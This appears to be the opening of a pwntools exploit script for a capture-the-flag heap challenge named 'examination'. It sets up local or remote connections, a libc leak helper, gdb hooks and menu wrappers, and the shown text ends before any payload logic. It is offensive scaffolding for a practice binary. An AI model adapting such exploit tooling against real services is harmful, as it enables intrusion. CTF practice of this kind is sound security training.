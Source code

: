 ```python
from pwn import *
context.arch = "amd64"
context.log_level = "debug"
IP = "172.20.2.7"
PORT = 26351
DEBUG = 1


if DEBUG:
    p = process(["./ld-2.31.so", "./examination"], env={"LD_PRELOAD": "./libc-2.31.so"})
    base = p.libs()[p._cwd + p.argv[1].decode().strip(".")]  # fix bytes str error in py3.9
    print("base:", base, p.libs())
    libc = ELF("./libc-2.31.so")
else:
    p = remote(IP, PORT)
    libc = ELF("./libc-2.31.so")


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass
def lg(s): return log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
    if DEBUG:
        cmd = ""
        # cmd += "b *%d\n" % (base + 0x15D5)
        # cmd += "b *%d\n" % (base + 0x154D)
        cmd += "set $a=%d\n" % (base + 0x5080)  # arrPtr
        debug(cmd)


def choice(choice_num: int):
    sla("choice>> ", str(choice_num))


def change_role(role):
    choice(5)
    sla("role: <0.teacher/1.student>: ", str(role))


def add_student(ques_num):
    choice(1)
    sla("enter the number of questions: ", str(ques_num))  # [1, 9]


def give_score():
    choice(2)


def write_review(id, size, comment):
    choice(3)
    sla("which one? > ", str(id))
```